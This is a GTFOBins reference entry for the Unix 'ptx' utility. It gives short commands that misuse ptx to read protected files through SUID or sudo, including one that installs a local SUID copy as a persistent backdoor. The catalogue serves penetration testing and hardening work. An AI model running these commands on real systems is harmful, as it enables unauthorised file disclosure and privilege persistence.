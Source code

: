 # GTFOBin: ptx

While the program is capable of reading the file, it outputs a “permuted index” of its content, thus altering it. Adjusting the options could yield more readable outputs.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
ptx -w 5000 "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ptx) .

LFILE=file_to_read
./ptx -w 5000 "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo ptx -w 5000 "$LFILE"
```